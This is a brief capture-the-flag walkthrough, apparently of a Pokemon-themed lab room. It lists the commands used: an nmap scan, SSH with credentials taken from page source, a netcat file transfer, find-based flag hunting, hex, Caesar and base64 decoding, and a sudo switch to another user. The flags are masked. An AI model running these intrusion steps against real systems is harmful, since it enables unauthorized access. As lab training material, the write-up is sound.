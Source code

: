 # Gotta Catch'em All!

- Find the Grass-Type Pokemon

	- `nmap -sV <TARGET_IP>`
	- `<pokemon>:<hack_the_pokemon>` in the source code of the default page...
	- `ssh pokemon@<TARGET_IP>` and enter the password
	- `cd Desktop`
	- `nc -lnvp 1234 < P0kEmOn.zip`
	- `nc <TARGET_IP> 1234 > pokemon.zip`
	- `unzip pokemon.zip`
	- `cd P0kEmOn`
	- `cat grass-type.txt`
	- `50 6f 4b ** 4d 6f ** ** ** 75 ** 62 ** 73 61 75 ** 7d`
	- CyberChef with recipe "From Hex".
	- `*******{*********}`

- Find the Water-Type Pokemon

	- `find / -type f | grep water-type`
	- `cat /var/www/html/water-type.txt`
	- `**************{********}`
	- But this flag has no sense...
	- Caesar Cypher? Yes...
	- `**************{********}`

- Find the Fire-Type Pokemon

	- `find / -type f | grep fire-type`
	- `cat /etc/why_am_i_here?/fire-type.txt`
	- `cat /etc/why_am_i_here?/fire-type.txt | base64 -d`
	- `*******{**********}`

- Who is Root's Favorite Pokemon?

	- `find / -type f | grep root`
	- After a lot of lines... `/home/roots-pokemon.txt`
	- `cat /home/roots-pokemon.txt`. Permission denied. f+ck.
	- After some minutes..
	- `pokemon@root:~/Videos/Gotta/Catch/Them/ALL!$ cat Could_this_be_what_Im_looking_for\?.cplusplus`
	- `sudo su ash` and enter the password.
	- `sudo -l`
	- `cat /home/roots-pokemon.txt`
	- `********`

- Congratulations! Thank You So Much For Completing The Pokemon Room!

	  no answer needed



